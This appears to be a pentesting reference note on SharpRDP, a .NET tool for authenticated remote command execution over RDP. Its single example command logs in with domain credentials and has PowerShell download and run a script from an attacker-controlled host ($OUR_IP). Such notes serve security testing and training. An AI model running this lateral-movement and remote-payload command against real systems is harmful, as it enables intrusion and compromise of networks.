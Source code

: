 ```yaml
---
tags:
  - tool
---
```

# SharpRDP

[SharpRDP](https://github.com/0xthirteen/SharpRDP) is a .NET tool that allows for non-graphical, authenticated remote command execution through RDP, leveraging the `mstscax.dll` library used by RDP clients.

## Capabilities

```powershell
# Connect
.\SharpRDP.exe computername=$HOST command="powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://$OUR_IP/$SCRIPT')" username=$DOMAIN\$USER password=$PASS
```

**Note:** The execution of commands using `SharpRDP` is limited to 259 characters.
